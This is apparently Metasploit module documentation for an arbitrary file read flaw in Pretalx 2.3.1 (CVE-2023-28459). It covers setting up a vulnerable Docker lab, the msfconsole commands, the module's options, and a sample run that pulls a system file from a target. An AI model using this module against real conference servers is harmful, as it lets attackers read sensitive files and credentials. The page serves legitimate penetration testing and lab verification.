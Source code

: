 ## Vulnerable Application

Pretalx is a web-based conference planning tool, used to manage call for paper submissions, talk selection and so on. It used by many major IT conferences - such as OffensiveCon, Hexacon,... Versions 2.3.1 and prior are vulnerable to arbitrary file read, which exploits unsanitized path in schedule export. The module requires set of credentials of Pretalx user and Pretalx needs to have existing conference, where the attacker can submit malicious proposal.

Installation steps:

1. `git clone https://github.com/pretalx/pretalx-docker.git`
1. Change content of `docker-compose.yml` to following:
```
services:
  pretalx:
    image: pretalx/standalone:v2.3.1
      # image: pretalx/dev
    # build: .
    container_name: pretalx
    restart: unless-stopped
    depends_on:
      - redis
      - db
    environment:
      # Hint: Make sure you serve all requests for the `/static/` and `/media/` paths when debug is False. See [installation](https://docs.pretalx.org/administrator/installation/#step-7-ssl) for more information
      PRETALX_FILESYSTEM_MEDIA: /public/media
      PRETALX_FILESYSTEM_STATIC: /public/static
    ports:
      - "80:80"
    volumes:
      - ./conf/pretalx.cfg:/etc/pretalx/pretalx.cfg:ro
      - pretalx-data:/data
      - pretalx-public:/public

  db:
    image: docker.io/library/postgres:15-alpine
    container_name: pretalx-db
    restart: unless-stopped
    volumes:
      - pretalx-database:/var/lib/postgresql/data
    environment:
      POSTGRES_PASSWORD: veryunsecureplschange # same password as one that you will put in pretalx.cfg file later on
      POSTGRES_USER: pretalx
      POSTGRES_DB: pretalx

  redis:
    image: redis:latest
    container_name: pretalx-redis
    restart: unless-stopped
    volumes:
      - pretalx-redis:/data

volumes:
  pretalx-database:
  pretalx-data:
  pretalx-public:
  pretalx-redis:
```
1. `sudo docker-compose up`
1. Setup username and password
1. Go to `orga/event/`
1. Create new conference
1. Go to `orga/event/[conference name]/schedule/rooms/`
1. Create a room
1. Go to `orga/event/[conference name]/`
1. Make conference go live
1. `sudo docker exec -u 0 -it pretalx /bin/bash`
1. Make sure you have correct right on `/data` folder, so `pretalx` user can write export there


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/pretalx_file_read_cve_2023_28459`
1. Do: `set CONFERENCE_NAME [conference name]`
1. Do: `set EMAIL [user email]`
1. Do: `set PASSWORD [password]`
1. Do: `set RHOSTS [target IP address]`
1. Do: `run`

## Options

### CONFERENCE_NAME

The slug (shortcut) name of the conference. The module requires existing conference, where an attacker can submit malicious proposal (e.g. conference-secret-2025)

### FILEPATH
Absolute path to the target file.

### MEDIA_URL

Pretalx uses path to `media` folder, which is used as prepend to target file path to achieve arbitrary file read. The default value is `/media`, however, it can be modified by user.

### EMAIL

Email of Pretalx user that can approve proposals and release schedule.

### PASSWORD

Password of Pretalx user that can approve proposals and release schedule.

## Scenarios
```
msf auxiliary(scanner/http/pretalx_file_read_cve_2023_28459) > run verbose=true 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected vulnerable version 2.3.1
[*] Register malicious proposal
[*] Logging with credentials: [username]/[password]
[*] Approving proposal
[*] Adding h85WcLe4t4 to schedule
[*] Releasing schedule
[*] Trying to extract target file
[*] Extraction successful
[*] Stored results in /home/ms/.msf4/loot/20250725165914_default_192.168.168.146_pretalx.etcpas_473038.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
